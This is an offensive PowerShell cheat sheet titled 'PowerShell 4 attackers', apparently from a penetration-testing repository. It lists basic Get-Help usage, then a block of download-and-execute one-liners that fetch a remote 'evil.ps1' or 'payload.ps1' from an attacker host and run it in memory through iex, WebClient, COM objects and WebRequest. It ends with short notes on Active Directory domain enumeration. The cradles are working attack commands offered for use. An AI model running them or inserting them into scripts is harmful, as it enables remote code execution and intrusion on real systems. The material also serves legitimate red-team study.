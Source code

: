 # PowerShell 4 attackers

## PowerShell basics
```
Get-Help
Get-Help <cmdlet> -Full
Get-Help <cmdlet> -Examples
```

PowerShell scripts can used multiple things such as:
- cmdlets
- native commands
- functions
- .NET code
- DLL
- Windows API

### PowerShell Download and execute in memory of PowerShell:  
```
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

iex (iwr 'http://192.168.230.1/evil.ps1') (PowerShell Version 3)

$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText

$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
#### PowerShell and Active Directory
- ADSI
- .NET Classes (System.DirectoryServices.ActiveDirectory)
- Native Executable
- PowerShell (.NET Classes and WMI)


# Domain Enumeration
#### Using .NET Classes
Enumeration can be done by using Native Executables and .NET classes:
Using the DirectoryServices.ActiveDirectory.Domain class and then static method *GetCurrentDomain()*
- https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectory.domain?view=dotnet-plat-ext-6.0
- https://adsecurity.org/?p=113
